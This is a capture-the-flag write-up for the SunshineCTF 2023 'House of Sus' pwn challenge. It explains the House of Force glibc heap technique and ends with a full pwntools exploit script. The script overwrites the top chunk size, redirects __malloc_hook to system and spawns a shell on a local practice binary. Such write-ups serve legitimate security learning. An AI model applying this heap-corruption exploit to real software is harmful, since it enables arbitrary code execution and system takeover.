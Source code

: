 ## Level: Easy

**TLDR:** create a chunk and overwrite the wilderness with a very large number due to an overflow. This will overlap the target address and resulting in write-what-where, which you can use it to overwrite malloc_hook with system to get a shell.  
  
### Checksec

![checksec](https://github.com/user-attachments/assets/b1f5f164-7791-4db8-80d0-da2e3aeca2af)

### Challenge
  
![menu](https://github.com/user-attachments/assets/24c5f22c-227d-488b-9446-7efe84d7e67e)

Very cool menu :D
We have a heap and a libc leak (option 2).

Also there is an overflow in option 3 so we can create a chunk then overwrite the wilderness (the top chunk's size) with a very large number (e.g. -1). This will make sure that malloc won't use `mmap` for any further allocations because it will think the top chunk has always *enough* space. And this will result in overlapping target address (write-what-where). 

### Approach 

```
1 - Use the overflow in `[3] Call an emergency meeting` to overwrite the wilderness with a very large number.
```

![newwilderness](https://github.com/user-attachments/assets/47fb63ae-68a5-46e8-b76c-bf89da5d1922)

```
2 - Calculate the address of wilderness and the target from the leaks
3 - Allocate a chunk with size of target - top_addr - 0x10 # for metadata
```

![overlapsize](https://github.com/user-attachments/assets/2cb9e4e7-8221-4398-a75d-f3bbffa74f19)


```
4 - Overwrite malloc_hook pointer (the target address) with system
```

![systemoverwrite](https://github.com/user-attachments/assets/f5518ba2-59f8-4808-99ed-6df30c7f0f5e)

```
5 - Call malloc with the address of "/bin/sh" as size to get a shell
```

![flag](https://github.com/user-attachments/assets/bc4a5ea9-72a6-487b-88b8-03b28a7dc0ef)


Calculating the offset for distance was quite painful until I get the hang of it. As always, following sources helped me understand this **House of Force** technique and eventually solve the challenge:

House of force: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-force

More about the house: https://book.hacktricks.xyz/binary-exploitation/libc-heap/house-of-force

c0nrad's writeup: https://youtu.be/qA6ajf7qZtQ?t=2277

offical(i guess) write up: https://github.com/SunshineCTF/SunshineCTF-2023-Public/blob/main/Pwn/House_of_Sus/house_of_sus_exp.py

get the challenge from: https://github.com/SunshineCTF/SunshineCTF-2023-Public/tree/main/Pwn/House_of_Sus

Thank you to all of them and the author for this cool challenge!

### Full Exploit
```python
#!/usr/bin/env python

from pwn import *
import time
"""
p = gdb.debug("./house_of_sus_patched", gdbscript='''
    c
''')
"""
p = process("./house_of_sus_patched")

def emergency_meeting(size, response, imposter):
    p.sendline(b"3")
    p.recvuntil(b"tasks >:(\n\n")
    p.sendline(str(size).encode('utf-8'))
    time.sleep(0.5)
    p.sendline(response)
    
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))

def do_task():
    p.sendline(b"1")

def report_body(imposter):
    p.sendline(b"2")
    p.recvuntil(b"the seed: ")
    libc_leak = int(p.recvline().strip())
    print("LIBC LEAK:" + hex(libc_leak))
    time.sleep(0.5)
    p.sendline(str(imposter).encode('utf-8'))
    return libc_leak

p.recvuntil(b"joining game: ")

heap_leak = int(p.recvline().strip(), 16)
print("HEAP LEAK: " + hex(heap_leak))

# libc leak thanks to seed in report_body option
p.recvuntil(b"emergency meeting\n\n")
libc_leak = report_body(1)

libc_base = libc_leak - 279440
malloc_hook = libc_base + 4111408
system = libc_base + 324640
binsh = libc_base + 1785224

print("malloc_hook: " + hex(malloc_hook))
print("binsh: " + hex(binsh))

# overwrite the wilderness with "-1"
# so it will overlap the target on the next malloc 
payload = b"A" * 40
payload += p64(0xFFFFFFFFFFFFFFFF)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(40, payload, 1)

# calculate where the top chunk size (the wilderness) is 
heap_addr = heap_leak + 88 + 4112

# calculate the distance for malloc_hook
# allocate a chunk with a size of to the distance for malloc_hook
distance = malloc_hook - heap_addr - 0x10  # 0x10 for the metadata 
payload = b"B" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(distance, payload, 1)

# overwrite malloc_hook pointer with system
payload = p64(system)
payload += b"C" * 8
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(30, payload, 1)

# call malloc with "/bin/sh" in size
payload = b'whoami'
binsh = int(binsh)
p.recvuntil(b"emergency meeting\n\n")
emergency_meeting(binsh, payload, 1)

p.interactive()
```
<p align="center">
<img src=https://media1.tenor.com/m/-POqhuRZuEUAAAAd/easy-mode-shinoa-shinoa.gif>
</p>

